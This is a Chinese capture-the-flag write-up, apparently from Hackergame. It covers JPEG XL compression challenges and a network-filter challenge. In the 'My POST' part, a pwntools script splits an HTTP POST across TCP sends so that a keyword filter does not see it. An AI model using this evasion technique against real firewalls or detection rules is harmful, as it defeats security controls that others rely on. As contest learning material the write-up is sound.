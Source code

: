 哎哟别玩你那 MyGo 梗了。我的评价是看女人吵架真不如听歌吧。

## 低带宽星球

### 小试牛刀

下载图片，打开浏览器，输入 `tinypng.com`，上传，下载，提交，过。

### 极致压缩

看到题目就知道应该考的是 [`jxl`](https://www.wikiwand.com/en/JPEG_XL) 格式。题目的代码里没有用 Pillow 而是用了另外一个图片解码库也验证了这一点。

`jxl` 很久之前就有所耳闻，恰好上次 Google Capture The Flag 2023 也研究过。大体就是，jxl 图片里面有一个 Prediction Tree，可以通过一些条件组成的结点去程序式地生成图片。写出这棵树后用 `libjxl/tools/jxl_from_tree` 编译即可。最后是 `49` 个字节。

做完题意识到这个 [网页版](https://jxl-art.surma.technology/) 也可以编译 jxl tree，但是试了下同样的代码会编译出 `50` 字节，就恰好压在线上了，不知道出题人是不是用的这个。

代码就直接共享在这个 [网页版](https://jxl-art.surma.technology/?zcode=c8osSUktKMlQsODyL8pMzStJLMnMz1Mw4QpyDlEw4OLKTFOoULBTMLY05FJQgHLMLE2AHDA3Gcg1AHPgXEMoV0FBVyE4tUTBwgBNwJgLmWdkYkmCYUaG6KYZmhuhmAfmohiGZhRUm6k5Kt_AggvJGmNDLgA) 上了。

---

## Komm, süsser Flagge

感谢 Hackergame 带我入门计算机网络原理。感觉真比大学的网原有意思多了好吧。

### 我的 POST

规则过滤了包里不能包含 `POST`。刚开始在想指定的 `bm` 匹配算法会不会有点问题（因为网上看到有言论说 `bm` 算法不如 `kmp` 稳定），但后来意识到只需要拆成两个包即可。

```python
from pwn import *

tube.ra = tube.recvall
tube.rl = tube.recvline
tube.ru = tube.recvuntil
tube.sl = tube.sendline
tube.sla = tube.sendlineafter

token = 'XXX'

r = remote('202.38.93.111', 18080)

r.send(b'P')
r.send(b'OST / HTTP/1.1\r\n')
r.send(b'Host: 202.38.93.111\r\n')
r.send(f'Content-Length: {len(token)}\r\n'.encode())
r.send(b'\r\n')
r.send(token.encode())

print(r.recvall().replace(b'\r', b'').decode())

```
